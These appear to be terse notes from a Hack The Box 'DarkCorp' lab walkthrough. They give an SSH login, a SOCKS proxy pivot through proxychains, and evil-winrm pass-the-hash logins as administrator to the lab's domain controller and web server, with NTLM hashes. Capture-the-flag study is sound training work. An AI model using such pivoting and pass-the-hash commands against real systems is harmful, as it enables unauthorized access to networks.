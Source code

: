 https://github.com/yeyingsrc/Hackthebox-Walkthrough/blob/main/Insane/DarkCorp/Walkthrough.md

https://medium.com/@sg4642179/darkcorp-insane-full-walkthrough-26fdc14e127d

```sh
cat << EOF >> /etc/hosts
10.10.11.54 drip.htb
172.16.20.1 DC-01 DC-01.darkcorp.htb darkcorp.htb
172.16.20.2 WEB-01 WEB-01.darkcorp.htb
172.16.20.3 drip.darkcorp.htb
EOF
```

```sh
ebelford:ThePlague61780
ssh -D 0.0.0.0:1080 ebelford@drip.htb
```

`/etc/proxychains4.conf`:

```sh
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
# socks4  127.0.0.1 9050
socks5  127.0.0.1 1080
```

```sh
proxychains evil-winrm -i dc-01.darkcorp.htb -u administrator -H fcb3ca5a19a1ccf2d14c13e8b64cde0f
proxychains evil-winrm -i web-01.darkcorp.htb -u administrator -H 88d84ec08dad123eb04a060a74053f21
```
